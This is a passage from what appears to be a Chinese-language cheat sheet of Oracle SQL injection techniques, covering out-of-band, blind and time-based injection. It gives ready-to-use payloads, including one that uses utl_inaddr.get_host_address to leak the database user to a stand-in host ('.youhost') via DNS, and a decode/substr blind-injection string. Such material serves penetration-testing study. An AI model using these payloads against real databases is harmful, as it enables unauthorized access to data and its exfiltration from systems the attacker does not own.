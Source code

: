 * utl_inaddr.get_host_address()
```sql
' and (select utl_inaddr.get_host_address((select user from dual)||'.youhost') from dual)is not null--
```

## 盲注

可以使用ASCII()，substr()这种通用组合获取数。

* 使用decode()函数进行盲注：

```
decode(条件,值1,返回值1,值2,返回值2,...值n，返回值n,缺省值)

if （条件==值1）
then
return(翻译值1)
elsif （条件==值2）
then
return(翻译值2)
......
elsif （条件==值n）
then 
return(翻译值n)
else
return(缺省值)
end if
```

```sql
'and 1=(select decode(substr(user,1,1),'遍历参数',(1),0) from dual) --
```

## 延时注入

* 通过页面响应的状态，这里指的是响应时间，通过这种方式判断SQL是否被执行的方式，
* oracle中DBMS_PIPE.RECEIVE_MESSAGE()
* decode()与高耗时SQL操作的组合
* 可以用case，if 等方式与高耗时操作的组合：

```sql
select count(*) from all_objects
```
